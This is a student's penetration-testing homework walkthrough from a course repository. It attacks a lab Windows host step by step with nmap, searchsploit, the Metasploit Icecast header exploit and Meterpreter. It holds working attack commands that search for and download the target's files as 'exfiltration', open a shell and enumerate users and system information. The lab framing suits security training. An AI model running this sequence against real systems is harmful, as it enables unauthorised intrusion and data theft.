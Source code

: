 # **Brian C Williams 17-Penetration II Homework** # 

[Report.docx](https://github.com/bwilliams4428/Cybersecurity-Homework/raw/main/17-Penetration-II-Homework/Report.docx)


You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

Perform a service and version scan using Nmap to determine which services are up and running:

1. Run the Nmap command that performs a service and version scan against the target.

	**Answer: nmap -sV 192.168.0.20**

	![Image of question1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q1.PNG)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast 	      	 exploits:

	Run the SearchSploit commands to show available Icecast exploits.

	**Answer: searchsploit icecast windows**

	![Image of q2](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q2.PNG)

3. Now that we know which exploits are available to us, let's start Metasploit:

	Run the command that starts Metasploit:
	
	**Answer: msfconsole** 

	![Image of q3](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/Q3.PNG)

4. Search for the Icecast module and load it for use.
	
	Run the command to search for the Icecast module:

	**Answer: search icecast**

	![Image of q4](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/Q4.PNG)

5. Run the command to use the Icecast module:
	
	Note: Instead of copying the entire path to the module, you can use the number in front of it.
        
	**Answer: use exploit/windows/http/icecast_header or use 0**
	
      ![Image of q5](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q5.PNG)

6. Set the RHOST to the target machine.
   
      Run the command that sets the RHOST:
	
      **Answer: set RHOST 192.168.0.20**
	
      ![Image of q6](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q6.PNG)
   
7. Run the Icecast exploit.

  	Run the command that runs the Icecast exploit.

	**Answer: run or exploit**
	
	![Image of q7](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q7.PNG)

8. Run the command that performs a search for the secretfile.txt on the target.

	**Answer**: search -f  *secretfile.txt**
	
	![Image of q8](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q8.PNG)

9. You should now have a Meterpreter session open.
   
      Run the command to performs a search for the recipe.txt on the target:

	**Answer**: search -f *recipe.txt
	
	![Image of q9](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q9.PNG)

	Bonus: Run the command that exfiltrates the recipe*.txt file:

	**Answer:** 	
	
			download c:\\Users\\IEUser\\Documents\\Drinks.recipe.txt
			
			download c:\\Users\\IEUSER\\Documents\\user.secretfile.txt
	
	![Image of bonus](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q10.PNG)
	![Image of bonus](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q12.PNG)

10. You can also use Meterpreter's local exploit suggester to find possible exploits.

	**Answer: run post/multi/recon/local_exploit_suggester**
	
	![Image of q10](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/q11.PNG)

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

Bonus

A. Run a Meterpreter post script that enumerates all logged on users.
	
   **Answer: run post/windows/gather/enum_logged_on_users**

   ![Image of bonus1](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B1.PNG)

B. Open a Meterpreter shell and gather system information for the target.
	
   **Answer:** 
   		
		shell
           
   		systeminfo
	
   ![Image of bonus2](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B2.PNG)
	
C. Run the command that displays the target's computer system information:

   **Answer: sysinfo**
	
   ![Image of bonus3](https://github.com/bwilliams4428/Cybersecurity-Homework/blob/main/17-Penetration-II-Homework/images/B3.PNG)



